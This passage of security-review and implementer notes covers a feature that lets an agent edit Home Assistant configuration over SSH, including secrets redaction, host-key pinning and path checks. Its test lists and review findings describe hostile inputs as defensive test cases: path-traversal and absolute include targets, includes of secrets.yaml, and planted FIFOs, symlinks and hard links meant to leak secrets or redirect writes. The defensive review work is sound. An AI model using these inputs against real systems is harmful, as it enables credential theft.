unchanged. A symlink inside the tree that points outside stays out of the
preflight's reach, as accepted last round.

**Tests:** `esphome/x.yaml` refused; `custom_components/x.yaml` refused;
`!include_dir_named .` refused; `!include_dir_named /homeassistant`
refused; `packages/a/b.yaml` accepted. The AQ2 set still behaves:
`.storage/core.config_entries`, `../outside.yaml`, `/etc/eshu-key.yaml` and
`packages/x.txt` refused; `packages/x.yaml` and `!include_dir_list packages`
accepted; an `!include` of `secrets.yaml` refused with the old code.

#### AT2 — CRLF in `secrets.yaml`

The value collector splits the combined text on `\n`, so a file saved with
CRLF endings (common when it is edited over the Samba add-on) leaves a `\r`
at the end of every line. `add1()` trims only spaces and tabs, so the value
stored is `token\r`, which never matches the output, where HA's loader
gives `token`. One line, in the `BEGIN` block of the collector, after the
`split` and **before** the block-scalar and key tests:

```awk
l = L[fi]
sub(/\r$/, "", l)      # AT2: CRLF line ending
```

The same line goes at the top of `SECRETS_KEYS_SCRIPT`'s action, before
`match`, so a CRLF file yields `token` in the key list rather than
`token\r`. Exactly one `\r` is stripped, and only at the end of a line: a
value that ends in `\r` in the middle of a line is left alone. The rest of
the collector and the scripts are §Round 10's, unchanged; this note adds
the one line to both places rather than re-pasting them.

**Tests:** a `secrets.yaml` with CRLF endings — a plain value, a quoted
value and a block scalar — is redacted; the keys script prints the keys
without `\r`; the same file with LF endings behaves exactly as before.

**What the security reviewer should read:** the scope predicate in the
preflight (AT1) and the one `sub` line in each of the two places (AT2).
Everything else is round 10's.

`bash scripts/verify.sh`: `2331 passed, 7 warnings in 428.21s (0:07:08)` (docs
only).

### Security round 11 (security reviewer, 2026-11-12, at `c3dee71`)

**AT1 and AT2 approved. The design is closed from the security side. The
code round comes to me when it is ready.**

* **AT1.** The two scope shapes match `ha_config_list`/`ha_config_read`
  exactly:
  * root files directly in `/homeassistant`, `*.yaml`/`*.yml`;
  * anything under `packages/`.

  The directory form refuses the root and everything that normalises to it,
  and that is the case that mattered, since the loaders recurse. Resolving
  against the including file's directory is HA's rule. The two refusal
  codes and the lexical-only limit stand as accepted in round 10.
* **AT2.** Exactly one `\r`, only at the end of a line, and before the
  block-scalar and key tests, so a CRLF block header is recognised too. The
  same line goes in the keys script. `\r` is a POSIX awk regex escape, so
  dash/ash/bash and mawk/gawk/BusyBox awk all read it the same way.

**BC1 (nit, code round): refuse an absolute include target.**
* The preflight resolves against `/homeassistant`, the add-on's view.
  HA Core loads the same file with its config at `/config`.
* So an absolute `/homeassistant/packages/…` passes the preflight but names
  a path Core may not have, and an absolute `/config/packages/…` that Core
  would load is refused.
* Neither leaks anything; both are just confusing. Relative targets only
  (`config_include_refused` for an absolute one) gives one view, the same
  in both places.
* Drop the "absolute `/homeassistant/packages/sub` accepted" test, or turn
  it into a refusal.

Code-round checks I will make:
* the scope predicate works on the decoded string, with `normpath` applied
  after the join, never before it;
* the CRLF line is in all three `redact()` copies' collector as well as in
  the keys script;
* the tests cover CRLF with a block scalar.

### Code round, part 1 — the preflight (implementer notes)

**Status: part 1 pushed; the transport, the six scripts, the tools and the
live path are not in yet.** This commit is the dashboard-side preflight and
the path policy, which is where AT1 and BC1 live, so the security reviewer
can read the rule that matters before the transport exists.

* `core/ha_config_preflight.py`:
  * `check_write_path` maps `/config` to the add-on's `/homeassistant`,
    refuses dot/empty segments, non-`.yaml`/`.yml`, anything outside the two
    roots, and `secrets.yaml` (`config_secret_refused`).
  * `validate_write` refuses `%TAG`/verbatim tags (`config_tag_refused`),
    `!env_var` (`config_env_var_refused`), over 256 KiB
    (`config_too_large`), and tab indentation (`config_yaml_invalid`).
  * includes are decoded (quoted scalars, `\xNN`/`\uNNNN`/`\\`), then
    `normpath`ed **after** the join against the including file's directory.
    An absolute target is refused (`config_include_refused`, BC1); a dot
    segment is refused before the join (`.storage`, `..`, `./x`); a file
    include must end `.yaml`/`.yml` and resolve to a top-level file or under
    `packages/` (AT1); a directory include must resolve to `packages/` or
    below, never the root (AT1). `secrets.yaml` keeps
    `config_secret_include_refused`.
  * the risky top-level keys (H4) and the `homeassistant.auth_providers`
    key are returned for the card; `unified_diff` renders the dry-run diff.
* **One deviates-from-text decision to flag.** The design's AL4/AQ2/AT1 text
  says the preflight loads the content with `yaml.SafeLoader`, but H4
  decided against a new Python package (§2.7) and this repository has no
  PyYAML. So the preflight is H4's structural scan
  (`core/ha_config_yaml.py` in the design): comments stripped, top-level
  keys at indentation 0 (quoted spellings decoded), values never
  interpreted, tags collected anywhere outside quotes and block scalars,
  indentation tracked so a block scalar's content is not a key. The one
  invalid form it can name is tab indentation; `ha core check` after the
  write remains the validity check, with the automatic restore. If the
  reviewer wants the SafeLoader version, it is one dependency and one
  function — the refusals above are the same either way.
* Tests (`tests/test_f11_ha_config_preflight.py`, 59): the accepted and
  refused paths; AT1 (`esphome`, `custom_components`, a directory include of
  `.`, `packages/..`, the root, absolute `/homeassistant`); BC1 (absolute
  targets refused); resolution relative to the including file; dot
  segments; `secrets.yaml`; `%TAG`, a verbatim tag, `!env_var`, a tab
  indent; size; every risky key in its quoted and spaced spellings, not
  behind a comment and not inside a block scalar; the digest, size and the
  diff.

`bash scripts/verify.sh`: `2890 passed, 26 skipped, 8 warnings in 584.01s
(0:09:44)`.

### Code round, part 2 — the transport, tools and tests (implementer notes)

Built on the same branch, rebased onto the merge stack (`bc62d54`, F22's tip).

* **`core/ssh_client.py`** is the one hardening path for F12 and F11:
  `-F /dev/null`, `BatchMode=yes`, `IdentitiesOnly=yes`,
  `StrictHostKeyChecking=yes`, `UserKnownHostsFile=<pin>`,
  `GlobalKnownHostsFile=/dev/null`, `ConnectTimeout=10`,
  `ServerAliveInterval=15`, `LogLevel=ERROR`, a private key file, no local
  shell, and the process-group kill on timeout. `core/ssh_exec.build_argv` /
  `run_ssh` now delegate to it (F12's tests unchanged); F11 adds the login
  user and the port.
* **`core/ha_config_ssh.py`**:
  * `target()` reads `base_url` (`host` or `host:port`) and
    `config_json.ssh_user`/`ssh_port`; the private key is the integration's
    `secret` and is written to a `0600` file in `ssh_keys.ensure_key_dir()`
    (`0700`) for the call, then removed in `finally`.
  * **TOFU**: with no pin, the first connection runs `accept-new`, records
    the host key line and its `SHA256:` fingerprint in `config_json`, and
    audits `ha_config_pin`. A later mismatch is `ssh_host_key_changed` and
    audited. A write or restore with no pin refuses **before connecting**
    (`ssh_host_unpinned`), so trust is only ever established by a read.
  * **path policy**: `check_read_path` mirrors the part-1 write rules
    (`/config` and `/config/packages`, `.yaml`/`.yml`, no dot/empty/`..`
    segments, no `.storage`/`.ssh`/`deps`/`tts`, no `*.db*`); the read runs
    a remote `realpath` + `stat` first and refuses when the resolved path is
    not the expected root path or the target is not a regular file (W4:
    relative to `/homeassistant`, because `/config` is a symlink).
  * **one script per write** (H2/U1–U4/W1–W4): `WRITE_SCRIPT` keeps the
    path, expected hash, backup name and temp name as positional arguments,
    checks every one of them, verifies the directory is
    `/homeassistant`/`packages/…`, requires the basename to be unchanged,
    hashes before the backup, writes the content from **stdin**, copies
    mode/owner with BusyBox `stat`/`chmod`, `mv`s into place, then
    `timeout 100 ha core check`; a failed check restores the backup and
    exits 18. Exit codes 10–19 are mapped to stable tool errors; an exit
    outside that range (or a client timeout) leaves the backup and enters
    `config_state_unknown`.
  * **restore** uses the same preamble and a second temp copy: copy the
    current file to the temp, copy the backup in, check, and on a failed
    check copy the temp back.
  * **the unresolved state**: a timeout or unknown exit records
    `{path, old_sha, new_sha, backup}` in `ha_config_state_<integration>`;
    writes and restores are refused (`config_state_unknown` naming the
    backup) until a `ha_config_read` of that path shows the old or new hash
    and clears it.
  * **one in-flight write** per integration (a non-blocking lock;
    `config_busy` for a second call).
  * **H5**: a write clears `ha_check_config_<integration>` before it
    connects; only the post-write check (or `ha_config_check`) may write
    `valid` again. The F10 restart guard reads the same key, and the tests
    exercise it.
  * every call records an integration-call row (template name as `path`,
    scrubbed 8 KiB tail, bytes, exit code) and the audit events
    `ha_config_write` / `ha_config_restore` / `ha_config_check` /
    `ha_config_rollback` / `ha_config_state_unknown`; content never enters
    an audit row.
* **`core/ha_ssh_seed.py`** is the `ha_ssh` catalog (list, read, write,
  restore, check) and `core/ha_config_handlers.py` the handlers; write and
  restore are `always_gate`, their preflights run the dry-run read and return
  the card's `_summary` (path, hashes, risky keys, diff), and a stale hash
  refuses at preflight so a doomed write is never queued. `ha_ssh` is in
  `NO_GENERIC_KINDS`, so no generic HTTP passthrough is seeded.
* **Setup doc** `docs/HA_CONFIG_SSH.md`; the integration form has an
  `ha_ssh` profile. The key is a PEM, so the doc shows creating the
  integration through the API (the form's single-line secret field is not
  suitable for a PEM).
* **Tests** `tests/test_f11_ha_config_ssh.py` (24): read path acceptance and
  refusals; TOFU pin + fingerprint; write without a pin refuses with no SSH
  call; changed host key refuses and audits; the configured user/port/pin in
  the runner; read/hash; `secrets.yaml` masking (the real hash is still
  returned); a symlinked path refused; dry-run diff with no write; a stale
  hash refuses before the script; a successful write (backup, stdin, 120 s,
  audit); exit 18 rolls back and audits; a client timeout enters unknown
  state and a second write is refused; an unknown exit is unknown state; a
  frozen fleet refuses writes while reads work; restore name validation and
  success; a passing check makes F10's restart guard fresh and a failing one
  does not; a write clears the earlier check; the two gated tools and their
  handlers; the preflight summary/diff and its stale-hash refusal; the
  scripts' BusyBox-safe shape (no `find /config `, `timeout 100 ha core
  check`, no `rm -rf`); path quoting.

Known limits, deliberate and listed for the next round: no CI step that runs
the scripts under BusyBox (the scripts are asserted textually); no re-pin UI
(the pin is updated through the integration's config); no backup-retention
pruning (nothing deletes a `.eshu-*.bak`); the pending-state is reported in
refusals and audit, not yet shown on the integration page.

`bash scripts/verify.sh`: `3023 passed, 26 skipped, 7 warnings in 630.05s
(0:10:30)`.

**BusyBox test gap closed (2026-11-13).** Part 2's tests asserted the script
text; nothing executed the six fixed scripts (list, write, restore, the
verify/read one-liners and the check command) under the add-on's real shell.
`tests/test_f11_ha_busybox.py` now runs each of them with `busybox sh -c`
against a throwaway `/homeassistant` tree, with every applet linked from the
busybox binary and `ha` stubbed to pass (exit 0) or fail (exit 1):

* success: bytes, mode 0640, uid/gid preserved, `.eshu-*.bak` holds the old
  bytes and the temp file is gone;
* exit 18 rollback: bytes, mode and owner are the original ones again and the
  backup is kept;
* refusals: a path outside the tree, a symlinked file (basename changes) and a
  symlinked directory (exit 11/13), with the target untouched;
* AT2: a CRLF payload written from stdin lands byte-for-byte;
* restore: success puts the backup back and rechecks; a failed check puts the
  current bytes back and exits 18;
* verify/read/check: `realpath`+`stat -c %F`, `head -c N --`, and
  `timeout 100 ha core check` behave under ash.

12 tests. BusyBox 1.36.1 is installed here, so they ran (12 passed in 0.68 s);
where it is absent the module skips with "BusyBox is not installed; run these
under ash where it is (apt install busybox)". No design change.

`bash scripts/verify.sh`: `3035 passed, 26 skipped, 8 warnings in 629.23s
(0:10:29)` (12 more than part 2: the BusyBox module ran here).

**BL1 (must) — hash the remote bytes, not the decoded text (2026-11-14).**
`ssh_client.run_ssh` opened the pipe with `text=True, errors='replace'`, so
the read path saw CRLF as LF and any invalid UTF-8 as U+FFFD. `read_config`
hashed that text, while the write script compares `sha256sum` on the add-on:
a CRLF or non-UTF-8 file was always "stale", and the agent was shown altered
content. Fixed:

* `run_ssh(..., binary=False)` — `binary=True` keeps `stdout`/`stderr` as
  bytes and encodes `stdin` as UTF-8. The default is unchanged, so F12's text
  path is byte-for-byte the same.
* `ha_config_ssh.run`/`_run_checked` forward it; the read call and both write
  steps (write, restore) use it. `_record` and the error messages decode with
  `errors='replace'` only for display.
* `read_config` hashes `len(raw)` bytes and `sha256(raw)`, then decodes once
  for `content` (with replacement). `size` is a byte count. The hash is
  exactly the `sha256sum` the script computes, so a CRLF/non-UTF-8 file can
  be written with the hash the card showed.
* Tests: `test_bl1_run_ssh_binary_mode_keeps_bytes_and_crlf` (the real
  transport with a stub `ssh`: `a\xffb` and `x\r\n` survive; text mode gives
  `a\ufffdb`), `test_bl1_read_hashes_the_raw_bytes_of_a_crlf_file`,
  `test_bl1_read_hashes_a_non_utf8_byte`, `test_bl1_a_write_with_the_raw_hash_passes_the_stale_check`,
  `test_bl1_the_read_uses_the_binary_transport`, and the BusyBox
  `test_the_write_script_accepts_the_raw_hash_of_a_crlf_non_utf8_file`
  (the script's own `sha256sum` of a `0xFF`/CRLF file is the expect hash, and
  the write succeeds with raw bytes on stdin).

`bash scripts/verify.sh`: `3041 passed, 26 skipped, 8 warnings in 630.12s
(0:10:30)` (6 more: the five BL1 tests and the BusyBox raw-hash case).

---

### Security review of the F11 code round (security reviewer, 2026-11-14, at `0219180`)

**Changes requested: BN1 and BN2 are musts. BL1 is agreed, with one more
condition.**

Sound as built:
* the shared `ssh_client`:
  * F12's argv is unchanged;
  * `-l` takes the user as a value;
  * `target()` refuses a host that starts with `-`;
* every remote argument goes through `shlex.quote`, and the scripts are
  fixed text;
* the key file is `0600`, in the `0700` key dir, and removed in
  `finally`;
* a fresh known-hosts file is made per call;
* the TOFU pin is set only by a call that doesn't require one, and a write
  or restore with no pin refuses before connecting;
* the write script:
  * checks every positional argument and the directory, basename,
    backup and temp names;
  * hashes before it backs up;
  * restores on exit 18;
  * maps unknown exits to `config_state_unknown`;
* freeze refuses writes and restores;
* H5 invalidates the earlier check before connecting;
* the include preflight matches AT1, and BC1 (relative targets only) is
  in.

**BN1 (must): the approved redaction of `ha core check` output is
missing.**
* Rounds 7–10 (AC1, AE1, AL3, AQ1) put a `redact()` into the write,
  restore and check scripts. It reads `secrets.yaml` through the checked
  descriptor, replaces each value in the check output, caps the result,
  and withholds the output when anything fails.
* The code runs a bare `timeout 100 ha core check 2>&1` in all three
  places.
* The raw output reaches the agent in `check_config()['output']`, in the
  write and restore `check_output`, and in the `config_check_failed`
  message.
* Only the call row goes through `scrub_string`, and that only catches
  values that look like secrets. `ha core check` can quote any config
  value, including ones that came from `!secret`. That is why the design
  redacts on the add-on, where the values are known.
* Fix:
  * use the Round 10 `redact()` exactly, in the same three places;
  * only the redacted or withheld text leaves the add-on;
  * run `scrub_string` as well, as a second check.
* Tests, under BusyBox:
  * a stubbed `ha` that prints a value from `secrets.yaml` returns it
    redacted, on all three paths;
  * an unreadable or oversized `secrets.yaml` returns the withheld line.

**BN2 (must): `_mask_secrets` leaves block-scalar and continuation values
in clear.**
* It masks only lines that contain `:`, and prints every other line as it
  is.
* So a `key: |` or `key: >` value comes back in clear: the indented lines
  of a PEM key, a multi-line token, or any wrapped value. So does a
  continuation line of a multi-line plain or quoted scalar.
* An indented `#` line inside a block scalar is content, not a comment,
  and is passed through too.
* That is the case AB2 handled for redaction.
* Fix: keep only top-level keys (column 0, not `#`) and real comments at
  column 0. Mask everything else as one value per top-level key: indented
  lines, `- ` items, and lines with no colon. In other words, show
  `key: "***"` for each top-level key and drop the body.
* Tests:
  * a block scalar, a folded scalar, a multi-line quoted value and a list
    value are all masked;
  * CRLF input (AT2) masks the same as LF.

**BL1 (must, agreed): read bytes.** The feature reviewer's finding stands:
read, hash and size the bytes, and decode only for display. One more
condition:
* With `errors='replace'`, a file that isn't valid UTF-8 comes back with
  U+FFFD in place of the bad bytes.
* Once the hash is fixed, a write built from that text would pass the
  stale check and write U+FFFD over bytes the agent never touched.
* So `ha_config_read` reports the file as not editable
  (`config_not_utf8`), and `ha_config_write` refuses it.
* Also:
  * compare the `ok <sha>` the script prints with the hash of the bytes
    sent, and mark the state unknown if they differ;
  * keep the stdin write in bytes, so CRLF still lands exactly (AT2).

**BN3 (should): verify and read are two connections.**
* `verify_path` runs `realpath` and `stat` in one call, and `head -c` reads
  the name in a second one.
* A swap between them, such as `packages/x.yaml` pointed at
  `../secrets.yaml` or at `.storage/...`, is read unmasked. The masking
  decision is made from the requested name.
* It needs something on the add-on that can write a symlink into
  `/homeassistant` (another add-on, or a `shell_command`). So it is not a
  direct agent path, but the write path already closed this class.
* Fix: one read script that opens the file on a descriptor, checks
  `realpath /proc/self/fd/N` against the expected path and `[ -f ]`, then
  reads through that same descriptor, as AQ1 does.

**Nits:**
* A restore that times out records `old_sha=''` and `new_sha=''`, so no
  read can ever clear it. Record the current and backup hashes, or give
  the operator a way to clear the state.
* `cat > "$tmp"` creates the temp with the add-on's umask before `chmod`.
  Put a `umask 077` at the top of the write script.

Next: a code round with BN1, BN2 and BL1, plus BN3 if it is small. I'll
re-read the scripts against Round 10's text.

**BN1–BN3, BL1 follow-up, nits (2026-11-14).**

* **BN1 — redaction.** The Round 10 `redact()` (AQ1) is inlined verbatim in
  `WRITE_SCRIPT`, `RESTORE_SCRIPT` and the new fixed `CHECK_SCRIPT`. The check
  output goes into a variable, is piped through `redact | head -c 65536`
  (cap after redaction), and only that leaves the add-on. `redact` collects
  every `secrets.yaml` under `/homeassistant` (`-type f -o -type l`), reads
  each through fd 9 in the subshell that checked it, sorts values longest
  first, and replaces them with `***`. A failed `find`, an unreadable
  candidate, or more than 64 KiB of secrets prints
  `[ESHU check output withheld: redaction unavailable]` and no check output.
  `scrub_string` runs again in the dashboard on the check output and on the
  `config_check_failed` messages. The write's `ok <sha>` line is compared with
  the hash of the bytes sent; a mismatch marks the state unknown.
* **BN2 — the read mask.** `_mask_secrets` keeps only top-level keys (column
  0, not `#`) and real comments at column 0, printing `key: "***"` and
  dropping every body line: block scalars (PEM keys, tokens), folded scalars,
  multi-line quoted values, list items and continuations. CRLF is normalised
  for the display copy.
* **BN3 — one descriptor.** `verify_path` is gone. `READ_SCRIPT` resolves the
  path, refuses a symlink, checks the accepted directory and the basename,
  opens the file on fd 3, checks `realpath /proc/self/fd/3` equals the
  resolved path and `-f` on the descriptor, then `head -c` from fd 3. A swap
  after the check cannot redirect the read. Exit 11/12/13/19 map to
  `config_path_refused`/`config_not_found`.
* **BL1 follow-up.** A file that is not valid UTF-8 is returned with
  `editable: false` and `reason: config_not_utf8`; `write_config` refuses it
  with `config_not_utf8` before the stale check. The read/write stdin stays
  bytes.
* **Nits.** `umask 077` at the top of the write and restore scripts. A
  restore that times out now records the current file's hash as `old_sha` and
  the backup's `sha256sum` as `new_sha` (a small validated `HASH_SCRIPT`), so
  a later read of the path resolves the state.

Tests: `test_f11_ha_config_ssh.py` — BN2 block/folded/quoted/list/CRLF masks,
BL1 non-UTF-8 not editable + write refusal, an `ok` line for other bytes as
state unknown, and the restore-timeout two hashes; `test_f11_ha_busybox.py` —
BN1 redaction on all three scripts with a `secrets.yaml` value in the stub
`ha` output, the withheld line for an unreadable and an oversized
`secrets.yaml`, BN3's descriptor read (bytes and CRLF kept, symlink exit 13),
and the raw-hash write.

`bash scripts/verify.sh`: `3050 passed, 26 skipped, 7 warnings in 632.51s
(0:10:32)` (9 more: BN1 x3, BN2 x2, BN3 x1, BL1 x3).

### Security re-read of F11 code round 2 (security reviewer, 2026-11-14, at `7b446d4`)

**BL1, BN1, BN2 and the nits are approved. BN3 is approved in shape. One
new must, BO2: the write and restore scripts are not the approved Round 9
scripts.**

Approved:
* **BL1.**
  * The read runs `binary=True`, and the hash and size come from the raw
    bytes.
  * A file that isn't valid UTF-8 is `editable: false` with
    `config_not_utf8`, and the write refuses it.
  * The write's stdin is bytes.
  * The `ok <sha>` line must equal the hash of the bytes sent; any other
    value is `config_state_unknown`.
  * F12 keeps text mode.
* **BN1.**
  * `redact()` matches the Round 10 text line for line. Only comments
    differ.
  * It is in the write and restore scripts and in a fixed `CHECK_SCRIPT`.
  * Only `redact | head -c 65536` leaves the add-on, and `scrub_string`
    still runs on the call row.
* **BN2.** Only column-0 keys and column-0 comments survive. Indented
  lines, `-` items and block or folded bodies are dropped, and CR is
  stripped.
* **Nits.** The write and restore start with `umask 077`. A timed-out
  restore records the current and backup hashes (`HASH_SCRIPT`), so a read
  can clear it.

**BO2 (must): use the approved Round 9 write and restore scripts,
unchanged, with Round 10's `redact()`.**

Round 10 changed only `redact()`; everything else stayed Round 9's. The
code's write and restore are the earlier shape. They miss what rounds 8
and 9 added and the W5 matrix checked:

* **AL1/AL6, create through a checked descriptor.**
  * The code runs `[ ! -e "$backup" ]` and then `cp -p`, then
    `[ ! -e "$tmp" ]` and then `cat > "$tmp"`, and restores with `cp -p`.
  * Round 9 opens each new file on a descriptor (`exec 5>` and `exec 6>`)
    and checks it with `fd_ok` before writing. It writes through the
    descriptor and runs `chown` on the descriptor.
  * Without that, a FIFO or link planted at the backup, temp or rollback
    name after the check receives the file's bytes or the agent's
    content. Those are the W5 rows "reader gets nothing" and "15/16/1".
* **Hard links.** Round 9 refuses a target or backup whose link count is
  not 1 (`stat -L -c %h ... = 1`, exit 21). The code has no check.
  * The code's `READ_SCRIPT` needs it too. Masking is decided by name, and
    `realpath` cannot see a hard link. So `packages/x.yaml` hard-linked to
    `secrets.yaml` is read unmasked.
  * Add the link-count check on fd 3 to the read script. That finishes
    BN3.
* **AL5.** The restore takes the backup's expected hash as `$4` and checks
  it before installing (exit 14). The code installs whatever is at the
  backup name. `restore_config` must also pass the hash it recorded.
* **W7/W8.** Round 9 sets `PATH` and `set -f`, and reads `SUPERVISOR_TOKEN`
  from `/run/s6/container_environment/SUPERVISOR_TOKEN` (exit 20 when it
  can't be read). It then passes the token only to `ha`.
  * The code's scripts, including `CHECK_SCRIPT`, run a bare `ha core check`.
  * W7 found that `ha` over SSH needs that token. The BusyBox tests stub
    `ha`, so they can't show this. On a real add-on, every check would
    fail, and every write would then roll back with exit 18.

Fix:
* paste Round 9's `WRITE_SCRIPT` and `RESTORE_SCRIPT` and Round 9's
  `CHECK_SCRIPT` preamble, with Round 10's `redact()` in place;
* add the read script's link-count check;
* update the exit-code map for 20 and 21;
* port the W5 matrix rows (FIFO at backup, temp and rollback; a planted
  link; a hard link; a swap between `realpath` and the open; AL5's changed
  backup) to `tests/test_f11_ha_busybox.py`, with a reader attached to the
  FIFO;
* test that a missing token file gives exit 20 and runs nothing.

I'll diff the scripts against Round 9 and Round 10 text on the next read.

**BO2 implemented (2026-11-14).** The write and restore scripts are the
approved Round 9 text again, with Round 10's `redact()` in place, pasted from
the plan's "The scripts, final" block:

* `WRITE_SCRIPT` opens the target on fd 3 (link count 1, exit 21), the backup
  on fd 4 and the new content on fd 5 through `set -C` and `fd_ok` before any
  write, writes through the descriptors, and rolls back through fd 6 with the
  same qualification. It refuses a `!include` of a secrets file (22).
* `RESTORE_SCRIPT` takes the backup's expected hash as `$4` (AL5), checks it
  (exit 14) before installing, and keeps the pre-restore copy on fd 5 and the
  rollback on fd 6.
* Both set `PATH` and `set -f`, and read
  `/run/s6/container_environment/SUPERVISOR_TOKEN` (exit 20 when absent),
  passing it only to `ha`. `CHECK_SCRIPT` has the same preamble and tree
  checks.
* `READ_SCRIPT` gained the descriptor link-count check (21), so a hard link to
  `secrets.yaml` cannot be read unmasked.
* `restore_config` passes the hash it recorded (via the existing
  `HASH_SCRIPT`, which also refuses a hard link) and refuses before the call
  if it cannot be read. The exit-code map gained 20 (`config_ha_token_missing`),
  21 (`config_path_refused` / `config_backup_refused`, hard link) and 22
  (`config_includes_secrets`).

Tests: the BusyBox matrix now covers a FIFO at the backup and at the temp
name (a reader is attached and gets nothing), a planted symlink at the backup,
a hard link (read and write exit 21), a changed backup (AL5, exit 14), a
missing Supervisor token (write and check exit 20, nothing runs), and the
rollback file's pid-named, noclobber, descriptor-qualified create. The
existing write/restore/redaction/CRLF/raw-hash tests still pass on the Round 9
scripts. The only W5 row not runnable as a race is a swap between `realpath`
and the open: the script's `realpath /proc/self/fd/N` check and the hard-link
refusal are what close it, and the symlink test exercises the refusal path.

`bash scripts/verify.sh`: `3057 passed, 26 skipped, 8 warnings in 629.33s
(0:10:29)` (7 more: the BO2 matrix).

### Security re-read of F11 code round 3 (security reviewer, 2026-11-14, at `4de289d`)

**BO2 is approved for write, restore and check. One new must, BQ1, on the
read path.**

* **BO2.**
  * Comments aside, `WRITE_SCRIPT`, `RESTORE_SCRIPT` and `CHECK_SCRIPT`
    are now line for line the Round 9 text (§ 9065, § 9289, § 9581), with
    Round 10's `redact()` inside.
  * The restore passes the recorded backup hash as `$4`.
  * Exits 20, 21 and 22 are mapped.
  * The BusyBox matrix covers the FIFO plants, the symlink plant, the hard
    link, the changed backup, the missing token and the noclobber
    rollback.
* **The race note.** The design accepts that the `realpath` → open race is
  covered by the descriptor check and the link-count check. After the open,
  the descriptor names the inode. A link that points elsewhere fails the
  `readlink` comparison, and a hard link fails `%h = 1`.

**BQ1 (must): `secrets.yaml` and other file contents leave the add-on and
are stored in the call log.**
* **The read script is not Round 9's.** Round 9's `READ_SCRIPT` (§ 9511)
  refuses `secrets.yaml` (exit 19, by both the requested and the resolved
  basename). Its keys come from `SECRETS_KEYS_SCRIPT`, which prints only
  the keys and runs on the add-on.
* The code's `READ_SCRIPT` reads `secrets.yaml` in full. It sends the
  bytes to the dashboard, and `_mask_secrets` drops the values there. So
  every secret value crosses the wire and sits in dashboard memory.
* **The call log stores it.** `_record()` stores the last 8 KiB of every
  call's stdout in `integration_calls.response_summary`, and the read is
  no exception. Only `scrub_string` runs on it, and that catches values
  that look like tokens, not arbitrary ones.
  * So a read of `secrets.yaml` (usually under 8 KiB) puts the unmasked
    file into the call row. The row is shown in the integration's call
    history.
  * Every other config read stores the end of the file, inline
    credentials included. The implementer notes promise "content never
    enters an audit row".
* **Fix:**
  * use Round 9's `READ_SCRIPT` as written, including `set -f`, `PATH`,
    `[ -d "$dir" ]` and the two `secrets.yaml` refusals. Keep the code's
    `head -c` cap, which is fine;
  * for a `secrets.yaml` read, call `SECRETS_KEYS_SCRIPT`, so that only
    keys ever leave the add-on;
  * never store file content in a call row. For the read and the keys
    script, `_record` stores the template name, the byte count, the hash
    and the exit code, and nothing from stdout. The write, restore and
    check rows keep the redacted check tail.
* **Tests:**
  * a `secrets.yaml` read runs the keys script, and no value appears in
    the response or in `integration_calls`;
  * a read of a file with a distinctive line leaves no part of that line
    in `integration_calls`;
  * Round 9's `READ_SCRIPT` returns exit 19 on `secrets.yaml`, under
    BusyBox.

### BQ1 round (implementer notes, 2026-11-14)

* **The read script is Round 9's.** `READ_SCRIPT` is now §9511 line for line
  (`set -f`, fixed `PATH`, `me=$$`, the two `secrets.yaml` refusals by
  requested and resolved basename, the `[ -d "$dir" ]` check, the
  descriptor/link checks). Only the last line differs, keeping this code's
  `head -c MAX_CONTENT+1` cap as the review allowed.
* **secrets.yaml goes through the keys-only script.** `SECRETS_KEYS_SCRIPT`
  is Round 9's text (same preamble without the two refusals, ending in the
  top-level-key `sed`). `read_config` picks it for a `secrets.yaml` path and
  calls it with the `read-keys` template, so the response is the key list
  (`api_key`, `block`, ...), never a value, and the file is not editable
  (`keys_only: true`, `editable: false`); the write script already refused
  that path.
* **The call row stores metadata only.** `_record` special-cases `read` and
  `read-keys`: `response_summary` is `"<template>: N bytes, sha256 <hash>,
  exit N"` (plus a bounded, scrubbed stderr tail on failure);
  `response_bytes` is the stdout length and `truncated` is 0. No stdout byte
  is stored. The write, restore and check rows keep their redacted tail.
* **Tests.** `tests/test_f11_ha_config_ssh.py`: a secrets read returns keys
  only and its call row (`tool == "read-keys"`) holds no value, including a
  block scalar and a private-key body; a normal read's distinctive line is
  in the response but not in the call row (`tool == "read"`, byte count,
  hash, exit). `tests/test_f11_ha_busybox.py`: Round 9's `READ_SCRIPT`
  exits 19 on `secrets.yaml` at the root and in `packages/` under BusyBox,
  and the keys script prints `api_key`/`block` only, never the values.

`bash scripts/verify.sh`: `3061 passed, 26 skipped, 8 warnings in 651.43s
(0:10:51)` (the BQ1 tests: keys-only response and call row, BusyBox exit 19
and the keys output).

**BS3 (should).** The keys script now uses Round 9's awk extractor instead
of the `sed`, so `hyphen-key`, `dotted.key` and `"quoted key"` (W5 rows) are
reported; it still prints keys only. Tests at both levels: the Python read
returns the four key shapes and no values, and BusyBox's keys script prints
the same four lines.
`bash scripts/verify.sh`: `3063 passed, 26 skipped, 7 warnings in 686.70s
(0:11:26)` (the BS3 rows).

### Security re-read of BQ1 (security reviewer, 2026-11-14, at `6e5f2b1`)

**BQ1 approved.** From the security side, F11 is ready for the merge
review once BS3 is decided.

* `READ_SCRIPT` is line for line Round 9's (§ 9510). The only change is
  the final `head -c` cap, which I allowed.
* `secrets.yaml` goes through `SECRETS_KEYS_SCRIPT`, so only keys leave
  the add-on. The response is `keys_only: true` with `editable: false`.
* For `read` and `read-keys`, the call row stores the template, the byte
  count, the sha256 and the exit code. stdout is never stored, and a
  failure adds at most 500 scrubbed characters of stderr.

**BS3 (should): use Round 9's key extractor.**
* The keys script's preamble matches Round 9's, but its last line is
  `sed -n "s/^\([A-Za-z0-9_][A-Za-z0-9_]*\):.*/\1/p"`, where Round 9 has
  the awk extractor.
* The `sed` drops `hyphen-key`, `dotted.key` and `"quoted key"`, which
  are W5 matrix rows. It prints only keys, so nothing leaks, but the agent
  is told those secrets don't exist.
* Paste the Round 9 awk, and add those three rows to the BusyBox test.

**Rebase onto master `800efe3` (2026-11-14).** Rebased onto the X7 merge;
nothing else changed. F11 is dashboard-only, so there is no installer
regeneration and no new gateway code. `bash scripts/verify.sh`: `3156
passed, 26 skipped, 8 warnings in 673.57s (0:11:13)`.

### Security confirm of BS3 and the merge tip (security reviewer, 2026-11-15, at `6ee0907`)

**Approved to merge.** On the rebased tip, all five fixed scripts match the
Round 9 text, comments aside:
* `SECRETS_KEYS_SCRIPT` now ends with Round 9's awk extractor (BS3), and
  the Python and BusyBox tests cover hyphenated, dotted and quoted keys;
* `READ_SCRIPT` matches, apart from the allowed `head -c` cap;
* `WRITE_SCRIPT`, `RESTORE_SCRIPT` and `CHECK_SCRIPT` match exactly.

F11 stays dormant until an `ha_ssh` integration exists. The first
connection must be a read (TOFU), and the operator should compare the
pinned fingerprint against the add-on's own before the first write.

